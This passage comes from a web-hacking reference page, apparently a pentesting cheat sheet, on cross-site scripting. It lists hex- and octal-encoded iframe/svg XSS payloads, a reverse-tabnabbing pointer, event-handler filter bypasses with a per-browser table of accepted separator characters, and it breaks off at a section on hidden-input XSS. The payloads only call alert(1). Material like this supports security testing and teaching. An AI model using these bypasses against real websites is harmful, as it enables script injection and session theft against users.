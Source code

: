 ```javascript
//Encoded: <svg onload=alert(1)>
// This WORKS
<iframe src=javascript:'\x3c\x73\x76\x67\x20\x6f\x6e\x6c\x6f\x61\x64\x3d\x61\x6c\x65\x72\x74\x28\x31\x29\x3e' />
<iframe src=javascript:'\74\163\166\147\40\157\156\154\157\141\144\75\141\154\145\162\164\50\61\51\76' />

//Encoded: alert(1)
// This doesn't work
<svg onload=javascript:'\x61\x6c\x65\x72\x74\x28\x31\x29' />
<svg onload=javascript:'\141\154\145\162\164\50\61\51' />
```

### Reverse tab nabbing

```javascript
<a target="_blank" rel="opener"
```

If you can inject any URL in an arbitrary **`<a href=`** tag that contains the **`target="_blank" and rel="opener"`** attributes, check the **following page to exploit this behavior**:

{{#ref}}
../reverse-tab-nabbing.md
{{#endref}}

### on Event Handlers Bypass

First of all check this page ([https://portswigger.net/web-security/cross-site-scripting/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)) for useful **"on" event handlers**.\
In case there is some blacklist preventing you from creating this even handlers you can try the following bypasses:

```javascript
<svg onload%09=alert(1)> //No safari
<svg %09onload=alert(1)>
<svg %09onload%20=alert(1)>
<svg onload%09%20%28%2c%3b=alert(1)>

//chars allowed between the onevent and the "="
IExplorer: %09 %0B %0C %020 %3B
Chrome: %09 %20 %28 %2C %3B
Safari: %2C %3B
Firefox: %09 %20 %28 %2C %3B
Opera: %09 %20 %2C %3B
Android: %09 %20 %28 %2C %3B
```

### XSS in "Unexploitable tags" (hidden input, link, canonical, meta)

From [**here**](https://portswigger.net/research/exploiting-xss-in-hidden-inputs-and-meta-tags) **it's now possible to abuse hidden inputs with:**
